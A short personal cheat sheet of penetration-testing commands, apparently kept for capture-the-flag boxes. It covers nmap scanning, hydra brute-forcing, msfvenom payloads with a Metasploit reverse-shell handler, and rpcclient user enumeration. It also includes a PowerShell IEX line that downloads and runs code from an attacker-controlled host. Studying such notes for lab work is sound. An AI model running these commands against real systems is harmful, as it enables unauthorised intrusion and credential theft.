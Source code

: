 # Random notes that I have not filed yet

## Standard nmap scan
`sudo nmap -sC -sV -oA nmap/(box name) (IP)`

## Make nice screenshots of access
Windows: `hostname; whoami; ipconfig`

Linux: `hostname; whoami; ip a`

## Setup a simple web server
`python -m SimpleHTTPServer`

## Download from Windows shell
`IEX(New-Object Net.WebClient).downloadString('http://(IP/HOSTNAME)')`

## Encoding file to remove bad characters, and copy to clipboard
`cat (filename) | iconv -t UTF-16LE | base64 -w 0 | xclip -selection clipboard`

Change `UTF-16LE` to `UTF-8` for Unix

## HTTP login pages
`hydra -C /usr/share/seclists/Passwords/Default-Credentials/(chosen file) -s (port) (IP) http-get (subdirectory)`

## MSFVenom
### List payloads
`msfvenom -l payloads`

### List formats
`msfvenom -l formats`

### Create payload
`msfvenom -p (payload) LHOST=(IP) LPORT=(port) -f (format) -o (output filename)`

## Setup handler
In Metasploit: 

`use exploit/multi/handler`

`set payload (selected payload)`

`set LHOST tun0`

`set LPORT (port)`

`exploit -j` to run in background

## Check sessions in Metasploit
`sessions -i 1`

## RPC 
### Access
`rpcclient -U '' (IP)`
### User dump
In RPC client, run `enumdomusers`
### More details
In RPC client, run `querdispinfo`

## Wordlists
### How to make nice wordlists
`hashcat --force --stdout -r /usr/share/hashcat/rules/best64.rule (original password list you have) > password.lst`

## Decompilers
### DNSpy
Recommended for .NET

## Windows shell
### `allinfo`
Windows version of `ls -lah`
### `type`
Windows version of `cat`

## OS typing by TTL
Windows has a default of a 128 TTL, Unix has 64?

## Finding web server subdirectories
`gobuster dir -u '(IP)' -x (format) -w /usr/share/wordlists/dirbuster/(chosen wordlist) -o (output file)`

## Reverse Shells
### Where can they be found?
Find most in `/opt/nishang/Shells/` on Kali
